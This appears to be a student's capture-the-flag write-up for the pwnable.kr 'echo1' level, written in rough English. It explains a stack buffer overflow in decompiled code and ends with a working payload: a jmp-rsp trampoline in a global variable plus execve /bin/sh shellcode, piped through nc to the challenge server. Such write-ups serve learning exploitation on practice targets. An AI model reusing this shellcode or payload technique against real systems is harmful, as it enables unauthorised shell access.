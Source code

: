 
 # LEVEL - echo1
 
 in tis level we get an executebel file we run it true ida and we get sit code:
 ```
 int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v3; // rax
  unsigned int i; // [rsp+Ch] [rbp-24h] BYREF
  int v6[4]; // [rsp+10h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  o = malloc(0x28uLL);
  *((_QWORD *)o + 3) = greetings;
  *((_QWORD *)o + 4) = byebye;
  printf("hey, what's your name? : ");
  __isoc99_scanf("%24s", v6);
  v3 = o;
  *(_QWORD *)o = v6[0];
  v3[1] = v6[1];
  v3[2] = v6[2];
  id = v6[0];
  getchar();
  func[0] = (__int64)echo1;
  qword_602088 = (__int64)echo2;
  qword_602090 = (__int64)echo3;
  for ( i = 0; i != 'y'; i = getchar() )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("\n- select echo type -");
        puts("- 1. : BOF echo");
        puts("- 2. : FSB echo");
        puts("- 3. : UAF echo");
        puts("- 4. : exit");
        printf("> ");
        __isoc99_scanf("%d", &i);
        getchar();
        if ( i > 3 )
          break;
        ((void (*)(void))func[i - 1])();
      }
      if ( i == 4 )
        break;
      puts("invalid menu");
    }
    cleanup();
    printf("Are you sure you want to exit? (y/n)");
  }
  puts("bye");
  return 0;
}
```
so if we go to the function echo1:
```
__int64 echo1()
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  (*((void (__fastcall **)(void *))o + 3))(o);
  get_input(s, 128LL);
  puts(s);
  (*((void (__fastcall **)(void *))o + 4))(o);
  return 0LL;
}
```
get_input is just f_gets so we see that we can buffer overflow here becuse we can write 128 cherecters into a string of size 32 
so we think a bout changing the ret pointer so we look at the addres of s and the ret pointer and we get that the string s is 
40 bytes away of the ret pointer so we can overflow him so now we checksec the file (checksec --file=echo1) we see that NX is off 
so we can execute code from the stack know we will gwt our attention on the id verbel in the main function we see that 
```
id = v6[0]
```
v6 is a array of int so every slot in the array worth 4 bytes so we put in id 4 chars becuse one char is worth 1 byte becuse the PIE is also off we now that the global verebels dont change adresses so we can write ashellcode to the id and then with the buffer overflow return to id and execuse the id because we have only 4 chars we cant write bin/sh shell code so what we will do is use the sp register we know that
the sp register at the buffer overflow will hold the ret pointer with is the id addres and then after the ret of the function will incress by 8 bytes so what we can do is to put a shell code of jmp RSP in id and we will jump to the shell code.
is get after the firest 8 byets after the bufeer overflow we can in sert a bin/sh shell code and then we will get the flag
the adress of id is 0x6020a0 and the shell code is \x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05
so we will execute:
(python2 -c "print('\xff\xe4\x00\x00\n' +'1\n' + 'a'*40 +'\xa0\x20\x60\x00\x00\x00\x00\x00\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05\n')"; cat) | nc pwnable.kr 9010

eli :)
